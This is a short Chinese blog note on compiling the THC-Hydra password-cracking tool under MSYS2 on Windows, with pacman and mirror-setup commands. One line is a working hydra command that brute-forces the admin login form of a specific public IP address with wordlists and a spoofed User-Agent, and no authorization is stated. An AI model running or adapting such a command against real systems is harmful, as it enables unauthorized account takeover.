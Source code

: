 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make openssl-devel

./configure && make

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

```bash
pacman -F  jq.exe #搜索软件包（By File）
pacman -Ss gcc    #搜索软件包（By Name）
pacman -Sg mingw-w64-x86_64-toolchain mingw-w64-i686-toolchain #查看软件组
```

```bash
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/$arch/' > /etc/pacman.d/mirrorlist.msys
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/i686/' > /etc/pacman.d/mirrorlist.mingw32
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/x86_64/' > /etc/pacman.d/mirrorlist.mingw64
pacman -Sy
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/msys2-runtime-3.0.7-3.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/msys2-runtime-3.0.7-3-x86_64.pkg.tar.xz)
  * msys-z.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/zlib-1.2.11-1.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/zlib-1.2.11-1-x86_64.pkg.tar.xz)
  * msys-ssl-1.1.dll, msys-crypto-1.1.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/openssl-1.1.1.c-1.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/libopenssl-1.1.1.c-1-x86_64.pkg.tar.xz)
* https://www.msys2.org/
* https://packages.msys2.org/group/
* https://mirrors.ustc.edu.cn/help/msys2.html
* https://github.com/msys2/MSYS2-packages/tree/master/pacman-mirrors
